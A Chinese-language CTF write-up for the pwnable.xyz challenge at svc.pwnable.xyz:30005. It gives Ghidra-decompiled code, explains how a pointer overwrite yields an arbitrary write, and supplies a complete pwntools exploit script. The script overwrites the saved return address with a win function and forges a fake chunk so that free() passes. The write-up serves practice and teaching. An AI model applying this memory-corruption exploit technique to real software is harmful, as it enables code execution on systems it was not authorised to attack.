


ghidra查看代码

```c
undefined8 main(void)

{
  int iVar1;
  long lVar2;
  undefined4 *puVar3;
  long in_FS_OFFSET;
  byte bVar4;
  void *pvStack88;
  undefined4 local_50 [12];
  long local_20;
  
  bVar4 = 0;
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  pvStack88 = malloc(0x40);
LAB_004007f8:
  do {
    while( true ) {
      while( true ) {
        __printf_chk(1,&DAT_00400ade);
        puVar3 = local_50;
        for (lVar2 = 0xc; lVar2 != 0; lVar2 = lVar2 + -1) {
          *puVar3 = 0;
          puVar3 = puVar3 + (ulong)bVar4 * -2 + 1;
        }
        read(0,local_50,0x30);
        iVar1 = atoi((char *)local_50);
        if (iVar1 != 1) break;
        syscall();
      }
      if (1 < iVar1) break;
      if (iVar1 == 0) {
        if (pvStack88 == (void *)0x0) {     // C
                    /* WARNING: Subroutine does not return */
          exit(1);
        }
        free(pvStack88);                    // B
        if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
          return 0;                         // A
        }
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
LAB_00400898:
      puts("Invalid");
    }
    if (iVar1 == 2) {
      __printf_chk(1,&DAT_00400ae1,&pvStack88);
      goto LAB_004007f8;
    }
    if (iVar1 != 3) goto LAB_00400898;
    if (limit < 2) {
      pvStack88 = *(void **)((long)pvStack88 + 8);
    }
  } while( true );
}

void win(void)

{
  system("cat /flag");
  return;
}
```


程序首先会执行malloc并赋值给pvStack88，然后以repl模式运行，输入不同数字的效果为：

- 0：如果pvStack88不为空，free并退出（return方式）；

- 1：读取最多0x20个字符到pvStack88指向的地址；

- 2：打印pvStack88的地址，既栈上的位置（返回地址=该地址+0x58）；

- 3：相当于执行`memcpy(&pvStack88-8, pvStack88, 16)` ；

  因为pvStack88的值被覆盖，所以可以实现任意地址写。




**梳理下解题步骤：**

1. 得到返回地址的存储位置；

2. 修改返回地址为win函数；

3. 程序正常return，既执行到A行；

4. 而程序执行A行的前提是通过B和C，既需要伪造一个chunk；




5. 程序是no-pie编译的，可以找到一个地址固定的有w权限的段来存放chunk（也可以放在栈上）；


**writeup**

```python
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

p = remote('svc.pwnable.xyz', 30005)
# p = process('./challenge')
p.recvuntil(b'>')
p.sendline(b'2')

maddr = p.recvline()[:-1].decode('utf-8')
print('addr:', maddr)
maddr = int(maddr, 16)

chunk_ptr = 0x601100
# chunk_ptr = maddr + 0x100

ret_addr = maddr + 0x58
win_addr = 0x400a3e

p.recvuntil(b'>')
p.send(b'1' + b' ' * 0x2f)
p.sendline(b'a' * 8 + p64(ret_addr))

p.recvuntil(b'>')
p.sendline(b'3')

p.recvuntil(b'>')
p.send(b'1' + b' ' * 0x2f)
p.sendline(p64(win_addr) + p64(chunk_ptr + 8))

p.recvuntil(b'>')
p.sendline(b'3')

p.recvuntil(b'>')
p.send(b'1' + b' ' * 0x2f)
# p.sendline(p64(0x21) + p64(chunk_ptr + 16))
p.sendline(p64(0x20) + p64(chunk_ptr + 16))

p.recvuntil(b'>')
p.sendline(b'3')

p.recvuntil(b'>')
p.sendline(b'0')

p.interactive()

```

